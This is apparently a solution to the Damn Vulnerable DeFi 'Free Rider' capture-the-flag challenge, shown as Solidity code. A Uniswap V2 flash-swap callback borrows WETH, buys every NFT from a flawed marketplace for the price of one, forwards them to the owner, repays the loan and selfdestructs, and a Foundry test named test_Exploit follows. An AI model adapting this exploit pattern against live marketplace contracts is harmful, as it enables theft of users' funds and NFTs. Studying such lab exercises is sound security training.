 ```solidity
    // called by pair contract
    function uniswapV2Call(
        address _sender,
        uint256,
        uint256,
        bytes calldata _data
    ) external override {
        require(msg.sender == address(pair), "!pair");
        require(_sender == address(this), "!sender");

        (address tokenBorrow, uint amount) = abi.decode(_data, (address, uint));

        // about 0.3%
        uint256 fee = ((amount * 3) / 997) + 1;
        uint256 amountToRepay = amount + fee;

        // unwrap WETH
        IWETH weth = IWETH(tokenBorrow);
        weth.withdraw(amount);

        // buy tokens from the marketplace
        uint256[] memory tokenIds = new uint256[](numberOfNFT);
        for (uint256 tokenId = 0; tokenId < numberOfNFT; tokenId++) {
            tokenIds[tokenId] = tokenId;
        }
        marketplace.buyMany{value: nftPrice}(tokenIds);
        DamnValuableNFT nft = DamnValuableNFT(marketplace.token());

        // send all of them to the buyer
        for (uint256 tokenId = 0; tokenId < numberOfNFT; tokenId++) {
            tokenIds[tokenId] = tokenId;
            nft.safeTransferFrom(address(this), owner, tokenId);
        }

        // wrap enough WETH9 to repay our debt
        weth.deposit{value: amountToRepay}();

        // repay the debt
        IERC20(tokenBorrow).transfer(address(pair), amountToRepay);

        // selfdestruct to the owner
        selfdestruct(payable(owner));
    }

    receive() external payable {}

}

contract FreeRiderTest is BaseTest, ERC721Holder {
    // ... setup code

    constructor() {
        // ... setup code
    }

    function setUp() public override {
        // ... setup code
    }


    function test_Exploit() public {
        runTest();
    }
```